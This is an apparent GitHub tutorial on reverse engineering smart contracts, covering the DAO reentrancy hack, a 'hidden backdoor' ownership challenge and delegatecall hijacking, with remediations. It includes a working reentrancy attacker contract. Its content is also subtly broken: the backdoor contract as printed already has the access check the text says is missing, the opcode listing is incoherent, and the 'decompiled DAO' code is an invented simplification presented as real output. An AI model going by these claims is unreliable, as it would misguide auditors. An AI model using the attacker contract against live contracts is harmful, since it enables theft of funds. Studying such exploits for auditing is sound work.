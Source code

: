 # 🔍 Comprehensive Deep Dive into Reverse Engineering Smart Contracts & Opcode-Level Attacks

This advanced guide is designed for security researchers, auditors, and bounty hunters looking to reverse engineer real-world attacks and detect low-level smart contract vulnerabilities.

---

## 📌 1️⃣ Live Walkthrough: Reverse Engineering a Real-World Exploit

### 🎯 Case Study: The 2016 DAO Hack – $60M Stolen via Reentrancy

---

### 🛠️ Step 1: Extract the Contract Bytecode

1. Find the hacked DAO contract on Etherscan
2. Click “Contract” → “Bytecode”
3. Copy the raw **Hex Bytecode**

✅ This gives us the contract’s EVM-level representation.

---

### 🛠️ Step 2: Decompile the Bytecode into Solidity

**Tool:** [Dedaub Decompiler](https://library.dedaub.com/)

- Paste the DAO contract address or bytecode
- Dedaub converts it into Solidity-like pseudocode

**Decompiled Function Example:**

```solidity
function withdraw(uint256 amount) public {
    require(balance[msg.sender] >= amount, "Insufficient balance");
    msg.sender.call{value: amount}("");  // 🚨 Reentrancy vulnerability!
    balance[msg.sender] -= amount;
}
```

✅ You can now see how the attack drained ETH using reentrant calls.

---

### 🛠️ Step 3: Simulate the Attack with an Attacker Contract

```solidity
pragma solidity ^0.8.0;

contract DAO_Attacker {
    DAO_Vulnerable public dao;

    constructor(address _dao) {
        dao = DAO_Vulnerable(_dao);
    }

    function attack() public payable {
        dao.withdraw(1 ether);
    }

    receive() external payable {
        if (address(dao).balance > 1 ether) {
            dao.withdraw(1 ether);  // 🚨 Reentrant call exploits the bug!
        }
    }
}
```

✅ This simulates the DAO hack and validates the vulnerability.

---

## 📌 2️⃣ Hands-On Challenge: Reverse Engineer a Contract with Hidden Backdoors

### 🚨 The HiddenBackdoor Contract

```solidity
pragma solidity ^0.8.0;

contract HiddenBackdoor {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function transferOwnership(address newOwner) public {
        require(msg.sender == owner, "Not authorized");
        owner = newOwner;
    }

    function withdrawAll() public {
        require(msg.sender == owner, "Not authorized");
        payable(owner).transfer(address(this).balance);
    }
}
```

---

### 🚨 Your Challenge:

1. Find the hidden vulnerability
2. Explain how an attacker can exploit it
3. Patch the contract

---

### 🛠️ Step 1: Decompile with Dedaub

Look for:

- Unprotected state changes
- Ownership logic flaws

---

### 🛠️ Step 2: Scan with Slither

```bash
slither HiddenBackdoor.sol --detect backdoor
```

✅ Slither will flag unsafe ownership transfers.

---

### 🛠️ Step 3: Identify the Exploit

```solidity
function transferOwnership(address newOwner) public {
    owner = newOwner;  // 🚨 No access control!
}
```

⚠️ Anyone can take ownership — this is a hidden backdoor.

---

### 🛠️ Step 4: Patch the Vulnerability

```solidity
function transferOwnership(address newOwner) public onlyOwner {
    require(newOwner != address(0), "Invalid address");
    owner = newOwner;
}
```

✅ Access control and input validation protect contract integrity.

---

## 📌 3️⃣ Deep Dive: Opcode-Level Attacks & EVM Bytecode Manipulation

### 🧠 Why Opcodes Matter

- Exploits like `delegatecall` and `selfdestruct` occur at the bytecode level
- Attackers obfuscate logic by modifying opcodes
- Auditors must be able to analyze raw bytecode to catch backdoors

---

### 🛠️ Step 1: Extract Bytecode

1. Find contract on Etherscan
2. Click “Bytecode”
3. Use a disassembler like [Ethervm.io](https://ethervm.io/decompile)

---

### 🛠️ Step 2: Identify a `delegatecall` Hijack

**Disassembled Opcode Example:**

```
PUSH1 0x00
CALLER
PUSH1 0x40
MLOAD
DUP1
SWAP1
DELEGATECALL
SSTORE
STOP
```

🚨 This sequence enables malicious contract logic to be injected via `delegatecall`.

---

### 🛠️ Step 3: Understand the Vulnerable Function

```solidity
function execute(address target, bytes calldata data) public {
    (bool success,) = target.delegatecall(data);
    require(success, "Execution failed");
}
```

⚠️ The attacker can pass **any contract** to execute arbitrary logic.

---

### 🛠️ Step 4: Mitigation

```solidity
function execute(address target, bytes calldata data) public onlyOwner {
    require(isSafe(target), "Unsafe contract!");
    (bool success,) = target.delegatecall(data);
    require(success, "Execution failed");
}
```

✅ Restricting `delegatecall` to trusted targets prevents hijacks.

---

## 🚀 Summary: Tools & Techniques for Smart Contract Reverse Engineering

| Task                                 | Best Tool(s)              |
| ------------------------------------ | ------------------------- |
| Extract Bytecode from Contract       | Etherscan                 |
| Decompile to Human-Readable Solidity | Dedaub, Panoramix         |
| Analyze Raw Opcodes                  | Ethervm.io, Geth Debugger |
| Detect Backdoors or Ownership Flaws  | Slither, Mythril          |
| Simulate Real-Time Exploits          | Foundry, Tenderly, Forta  |

---

✅ You now have a blueprint to reverse engineer, decompile, analyze, and protect against real-world smart contract attacks — both at the **source code and bytecode level**.
